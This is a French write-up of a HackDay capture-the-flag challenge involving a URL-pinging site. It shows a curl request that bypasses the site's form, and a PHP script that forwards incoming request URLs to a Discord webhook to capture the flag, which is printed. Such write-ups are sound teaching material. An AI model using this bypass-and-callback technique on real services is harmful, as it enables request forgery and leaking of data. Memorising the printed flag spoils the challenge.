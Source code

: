 Ce challenge est un site web permettant de tester des pings sur certains site web.
On a accès au code source !

![](1.jpg)

On a le choix entre le site web de la NASA ou celui de HackDay. Bien évidemment, en bidouillant un peu avec l'inspecteur, on peut rajouter des choix. Ou alors carrément faire des requêtes sans utiliser le formulaire, comme ceci :

```bash
curl -X POST challenges.hackday.fr:50394/send -H Content-Type:application/x-www-form-urlencoded --data ip_address=https://duckduckgo.com
```

Sauf que nous pouvons voir qu'une fonction côté serveur (`very_unique_id`) permet de donner une *signature* (nombre entre 0 et 41) à chaque URL.
Et pour que l'URL soit valide, il faut que la signature soit égale à nos 2 choix de site web : `NASA` et `HackDay`. Soit 30 ou 27.

Une fois une URL valide trouvée, on peut la soumettre et voir le résultat du ping. J'ai choisi de faire cela avec un script PHP qui envoie le résultat dans un webhook Discord :
    
```php
<?php

$url = "https://discord.com/api/webhooks/bonsoir_webhook_je_suis_et_je_renvoie_les_pings";

$data = array('content' => 'Connexion sur l\'url '.$_SERVER['REMOTE_ADDR']."https://$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]");

$options = array(
    'http' => array(
        'header'  => "Content-type: application/x-www-form-urlencoded\r\n",
        'method'  => 'POST',
        'content' => http_build_query($data)
    )
);
$context  = stream_context_create($options);
$result = file_get_contents($url, false, $context);
?>
```

On reçoit alors le résultat du ping dans Discord, avec le flag dans l'URL : **HACKDAY{Pr3ttY_34Sy_r1Ght?}**.